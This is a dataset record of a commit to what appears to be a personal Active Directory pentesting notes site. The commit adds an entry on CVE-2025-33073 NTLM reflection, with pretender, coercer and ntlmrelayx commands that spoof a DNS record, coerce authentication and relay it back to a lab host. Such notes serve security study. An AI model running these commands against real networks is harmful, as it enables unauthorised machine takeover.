

Before and after one commit to KhaelK138/KhaelK138.github.io, a Jekyll site: the page built from markdown/ADExploitation.md, in a window 1280 px wide and 900 px high, scrolled down 6539 px. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
added notes for CVE-2025-33073

```diff
--- a/markdown/ADExploitation.md
+++ b/markdown/ADExploitation.md
@@ -265,6 +265,12 @@ AD mindmap - [https://orange-cyberdefense.github.io/ocd-mindmaps/img/mindmap_ad_
   - If a user has `unconstrained delegation`, we can use this to pivot
     - A client authenticating to a service with unconstrained delegation allows forwarding of the full TGT, meaning we can impersonate the user to any other service
   - Abuse workflow (outlined [here](https://dirkjanm.io/krbrelayx-unconstrained-delegation-abuse-toolkit/))
+- Abuse machines solely with SMB signing disabled
+  - Recent CVE, CVE-2025-33073, with exploitation detailed in [this blog post](https://www.synacktiv.com/en/publications/ntlm-reflection-is-dead-long-live-ntlm-reflection-an-in-depth-analysis-of-cve-2025)
+  - We can spoof as a certain type of DNS record, coerce the machine to authenticate to that DNS name, and then relay that authentication back to the original computer (which will actually accept it due to thinking the DNS record is itself, even though it's not where it resolves)
+    - `pretender -i "{network_interface}" --spoof "{server_DNS_name}1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA" --no-dhcp-dns --no-timestamps`
+    - `coercer coerce -t BRAAVOS.ESSOS.LOCAL -l {server_name}1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA -u {domain_user} -p {password} -d {domain}`
+    - `ntlmrelayx.py -t BRAAVOS.ESSOS.LOCAL -smb2support`
 
 ## Getting execution with credentials or hashes
 - Shells:
```
Also changed, not shown: markdown/Miscellaneous.md (+1 -1 lines).
